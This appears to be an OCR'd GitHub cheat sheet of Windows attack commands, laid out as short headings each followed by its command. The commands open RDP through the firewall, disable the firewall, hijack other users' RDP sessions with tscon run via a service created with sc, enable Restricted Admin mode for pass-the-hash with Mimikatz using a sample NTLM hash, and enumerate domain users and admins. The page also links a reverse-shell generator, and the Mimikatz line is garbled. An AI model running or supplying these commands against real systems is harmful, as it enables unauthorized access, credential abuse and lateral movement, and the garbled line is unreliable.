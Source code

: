 ```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```
firewall close disable
```
netsh firewall set opmode mode=disable
```
Displays all user sessions
```
query user
```
switch user sessions
```
tscon sessionID /PASSWORD:userpass
example: tscon 2 /PASSWORD:test123
```
Hijack users
```
sc create rdp binpath= "cmd.exe /k tscon sessionID /dest:sessionName"
example: sc create rdp binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#4"
sc start rdp
```

Pass The Hash(admin workgroup)
REG open Restricted Admin Mode
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f
check status
REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"
Mimikatz PTH
privilege:\:debugsekurlsa\::pth /user:administrator /domain:whoamianony.org /ntlm:ab89b1295e69d353dd7614c7a3a80cec "/run:mstsc.exe /restrictedadmin"

https://www.revshells.com/

# DOMAIN CONTROLLERS
search domain list
```
net view /domain
```
search domainuser
```
net user /domain
```
search domaingroup
```
net group /domain
```
search domainhost
```
net group "domain xxx" /domain
```
search domainadmin
```
net group "domain admins" /domain
```
search domaincontrol
```
net group "domain controllers" /domain
```
search enterpriseadmin
```
net group "enterprise admins" /domain
```
search dns
```
nslookup
```